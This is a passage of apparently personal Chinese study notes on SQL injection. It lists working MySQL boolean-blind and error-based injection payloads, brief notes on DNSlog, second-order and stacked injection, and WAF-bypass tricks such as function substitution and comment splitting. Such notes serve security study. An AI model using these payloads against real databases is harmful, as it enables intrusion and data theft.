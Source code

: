    

9. **布尔盲注**--逻辑判断：regexp, like, ascii, left, ord, mid, 

   ```mysql
   1. and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=101,sleep(3),0)   //substr(a,b,c)从 b 位置开始， 截取字符串 a 的 c 长度  ;判断库的第一个表的第一位ascii码是否等于101；limit 1,1指第2个表，从0开始；mid substr从1开始；
   2. like 'ro%' //判断ro或ro...是否成立
   3. left(database(),1)>'a'    //二分法爆数据库名   left(a,b)从左侧截取 a 的前 b 位  
   4. ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER
      BY id LIMIT 0,1),1,1))   //mid(a,b,c)从位置 b 开始， 截取 a 字符串的 c 位  ;ord()函数同 ascii()， 将字符转为 ascii 值  
   5. regexp:  and 1=(if((user() regexp '^r'),1,0))    //正则注入，正确反1错误0
   ```

   

10. **报错盲注**--报错回显：floor, updatexml, extractvalue  

      ```mysql
      1. Select 1,count( * ),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))
         a from information_schema.columns group by a ;   //
      2. select count(*) from information_schema.tables group by concat(version(),
         floor(rand(0) *2))    //
      3. select count( * ) from (select 1 union select null union select !1) group by concat(version(),floor(rand(0)*2))   //关键表禁用
      4.   //rand禁用<img src="C:\Users\Jang\AppData\Roaming\Typora\typora-user-images\image-20210525133000416.png" alt="image-20210525133000416" style="zoom:67%;" />
      5. select exp(~(select * FROM(SELECT USER())a))   //double数值类型超出范围，exp()是以e为底的对数函数，http://www.cnblogs.com/lcamry/articles/5509124.html
      6. select !(select * from (select user())x) - ~0    //bigint溢出，~0是对0逐位取反。http://www.cnblogs.com/lcamry/articles/5509112.html
      7. extractvalue(1,concat(0x7e,(select @@version),0x7e))     //mysql对xml数据进行查询和修改的xpath函数，xpath语法错误
      8. updatexml(1,concat(0x7e,(select @@version),0x7e),1)    //
      9. select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;   //mysql重复特性，此处重复version，所以报错
      ```

      

11. ##### 注入拓展

    1. 加解密注入：分析页面加密方法，将注入语句加密后进行注入
    2. JSON注入：将注入语句改为json语句进行注入
    3. LADP注入：
    4. DNSlog注入：解决了盲注不能回显数据，效率低的问题   ceye.io
    5. 二次注入：
       1. 插入恶意数据：第一次进行数据库插入数据的时候，仅仅对其中的特殊字符进行了转义，在写入数据库的时候还是保留了原来的数据,但是数据本身包含恶意内容。
       2. 引用恶意数据：在将数据存入到了数据库中之后,开发者就认为数据是可信的。 在下一-次需要进行查询的时候 ,直接从数据库中取出了恶意数据,没有进行进一 步的检验和处理,这样就会造成SQL的二次注入。
    6. 堆叠查询：多条语句共同执行
    7. SQLmap:当遇到sqlmap解决的不了的，可以尝试自己写插件注入<img src="C:\Users\Jang\AppData\Roaming\Typora\typora-user-images\image-20210421220055719.png" alt="0" style="zoom:50%;" />中转加密注入

12. ##### WAF绕过：测试WAF有哪些规则不全

    1. 数据
       1. 加解密：
       2. 大小写混合：不一定管用
       3. 等价函数替换：
          1. Hex() bin() == ascii()
          2. Sleep() == benchmark()
          3. Mid()substring() == substr()
          4. @@user == User()
          5. @@Version == version()
       4. 注释符混用：保证语句正常执行的同时  绕过WAF匹配规则(把语句拆分)
          1. /**/   在语句词中间加入
          2. /***/
          3. /* !*/   内联注释
          4. //     --     --+     #    +     :%00     /!**/